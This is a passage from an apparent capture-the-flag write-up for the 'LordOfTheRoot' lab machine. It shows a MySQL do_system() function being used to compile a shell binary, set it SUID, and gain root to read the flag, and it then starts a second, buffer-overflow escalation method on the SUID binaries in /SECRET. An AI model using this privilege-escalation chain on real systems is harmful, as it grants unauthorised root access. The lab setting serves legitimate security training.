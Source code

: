 I used MySQL to compile it:

``` 
mysql> select do_system("gcc -o /tmp/ring /home/smeagol/shell.c");
+-----------------------------------------------------+
| do_system("gcc -o /tmp/ring /home/smeagol/shell.c") |
+-----------------------------------------------------+
|                                                   0 |
+-----------------------------------------------------+
1 row in set (0.15 sec)
```

Now set the SUID bit:

``` 
mysql> select do_system("chmod u+s /tmp/ring");
+----------------------------------+
| do_system("chmod u+s /tmp/ring") |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.01 sec)
```

I looked inside /tmp for confirmation:

``` 
smeagol@LordOfTheRoot:~$ ls -l /tmp/
total 12
-rw-rw---- 1 smeagol smeagol   39 Jun 14 04:06 out
-rwsrwx--x 1 root    root    7410 Jun 14 04:16 ring
```

Lastly, I dropped to a shell with <code>\\! sh</code>, and ran the newly created binary:

``` 
$ /tmp/ring
root@LordOfTheRoot:~# cat /root/Flag.txt 
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```

Inside root's directory I also found source code for the binaries that will supply the second method of exploitation. And a Python script that moves them around, just like in the Tr0ll 2 challenge..

## Privilege escalation method #2 - Binary exploitation

So, I previously looked at the source code of the binaries inside the SECRET folder, and I know one of them is vulnerable to buffer overflow. Need to find which one:

``` 
smeagol@LordOfTheRoot:/SECRET$ ls -la *
door1:
total 16
drwxr-xr-x 2 root root 4096 Jun 15 08:15 .
drwxr-xr-x 5 root root 4096 Sep 22  2015 ..
-rwsr-xr-x 1 root root 7370 Sep 17  2015 file

door2:
total 16
drwxr-xr-x 2 root root 4096 Jun 15 08:15 .
drwxr-xr-x 5 root root 4096 Sep 22  2015 ..
-rwsr-xr-x 1 root root 5150 Sep 22  2015 file

door3:
total 16
drwxr-xr-x 2 root root 4096 Jun 15 08:15 .
drwxr-xr-x 5 root root 4096 Sep 22  2015 ..
```